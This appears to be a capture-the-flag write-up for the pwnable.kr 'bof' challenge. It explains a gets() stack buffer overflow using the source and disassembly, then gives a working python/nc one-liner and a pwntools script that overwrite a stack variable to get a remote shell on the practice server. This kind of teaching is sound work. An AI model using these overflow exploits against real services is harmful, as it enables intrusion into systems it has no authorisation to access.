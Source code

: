# bof

pwnable.kr attribution: this challenge comes from <https://pwnable.kr>, and I may reproduce parts of the challenge as visible from there for easier reference.

This is the first level where we don't use `ssh`.

```
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```

Downloading `bof.c` gives us

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Our goal (as alluded to by the title and hint) is to exploit this using a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) attack. Note the use of `gets` in the file. `gets` is deprecated and insecure, as the `man` page for `gets(3)` says on my computer:

```
DESCRIPTION
       Never use this function.

       gets()  reads  a  line from stdin into the buffer pointed to by s until
       either a terminating newline or EOF, which it replaces with a null byte
       ('\0').  No check for buffer overrun is performed (see BUGS below).
```

```
BUGS
       Never use gets().  Because it is impossible to tell without knowing the
       data in advance how many characters gets() will read, and because gets()
       will continue to store characters  past  the  end  of the buffer, it is
       extremely dangerous to use.  It has been used to break computer
       security.  Use fgets() instead.

       For more information, see CWE-242 (aka "Use of Inherently Dangerous
       Function") at http://cwe.mitre.org/data/definitions/242.html
```

Now, let's examine the executable to figure out more about the stack layout.

```
$ wget "http://pwnable.kr/bin/bof"  
$ file bof
bof: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ed643dfe8d026b7238d3033b0d0bcc499504f273, not stripped
```

We have a 32-bit executable, so `key` should appear on the stack right above the return address (on Linux for a 64-bit executable, we'd expect key to be in `%edi`). Looking at the disassembly, e get

```
$ objdump --disassemble=func bof 

bof:     file format elf32-i386


Disassembly of section .init:

Disassembly of section .plt:

Disassembly of section .text:

0000062c <func>:
 62c:   55                      push   %ebp
 62d:   89 e5                   mov    %esp,%ebp
 62f:   83 ec 48                sub    $0x48,%esp
 632:   65 a1 14 00 00 00       mov    %gs:0x14,%eax
 638:   89 45 f4                mov    %eax,-0xc(%ebp)
 63b:   31 c0                   xor    %eax,%eax
 63d:   c7 04 24 8c 07 00 00    movl   $0x78c,(%esp)
 644:   e8 fc ff ff ff          call   645 <func+0x19>
 649:   8d 45 d4                lea    -0x2c(%ebp),%eax
 64c:   89 04 24                mov    %eax,(%esp)
 64f:   e8 fc ff ff ff          call   650 <func+0x24>
 654:   81 7d 08 be ba fe ca    cmpl   $0xcafebabe,0x8(%ebp)
 65b:   75 0e                   jne    66b <func+0x3f>
 65d:   c7 04 24 9b 07 00 00    movl   $0x79b,(%esp)
 664:   e8 fc ff ff ff          call   665 <func+0x39>
 669:   eb 0c                   jmp    677 <func+0x4b>
 66b:   c7 04 24 a3 07 00 00    movl   $0x7a3,(%esp)
 672:   e8 fc ff ff ff          call   673 <func+0x47>
 677:   8b 45 f4                mov    -0xc(%ebp),%eax
 67a:   65 33 05 14 00 00 00    xor    %gs:0x14,%eax
 681:   74 05                   je     688 <func+0x5c>
 683:   e8 fc ff ff ff          call   684 <func+0x58>
 688:   c9                      leave
 689:   c3                      ret
```

The important parts of this for the stack layout are

```
 62c:   55                      push   %ebp
 62d:   89 e5                   mov    %esp,%ebp
 62f:   83 ec 48                sub    $0x48,%esp

 649:   8d 45 d4                lea    -0x2c(%ebp),%eax
 64c:   89 04 24                mov    %eax,(%esp)
 64f:   e8 fc ff ff ff          call   650 <func+0x24>

 654:   81 7d 08 be ba fe ca    cmpl   $0xcafebabe,0x8(%ebp)
```

We know that `%ebp` stores the base pointer for the stack frame (approximately `%esp` on entry). The `lea` tells us that `buf` stats `0x2c` below `%ebp`, and the `cmpl` tells us that `key` is at `0x8` above `%ebp`. So, on `stdin`, we need to put 0x8 + 0x2c = 0x34 (52) of any character followed by `0xcafebabe` (in little-endian order). There are many ways to express this, but a quick "one liner" is

`$ (python3 -c 'import sys; sys.stdout.buffer.write(b"0" * 0x34 + 0xcafebabe.to_bytes(4, "little") + b"\n")'; cat) | nc pwnable.kr 9000`

Some notes:

* We use the `-c` flag of python to run the command we specify without launching a REPL or writing a script.
* We write using `bytes` instead of a string, so we can be very sure of the number of bytes written/encoding used (note that we use `sys.stdout.buffer.write` instead of `print`)
* We use the subshell with `python` and `cat` so that we can interact with the program after the exploit has run (when we should be in the shell (note the call to `execve("/bin/sh")`).
* We include a trailing newline so that the `gets` call terminates.

An equivalent script using [`pwntools`](https://github.com/Gallopsled/pwntools) could look something like

```python3
from pwn import *
context(arch='i386', os='linux')

r = remote('pwnable.kr', 9000)
r.sendline(b"0" * 0x34 + p32(0xcafebabe))
r.interactive()
```

Then, in interactive (note using interactive mode both gives us a shell we can use to look around in and avoids the problem where we'd otherwise have to make sure part of the exploit goes to the `gets` and the other part happens after the `execve`),

```
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
super.pl
$ cat flag
```

To expand upon later:

* Disassembly/why look at executable and source code
* Disassemble vs decompile
* Manual decomp
* Full stack frame
* What `%gs:0x14` is/stack canaries
* TCP/sockets/pwntools
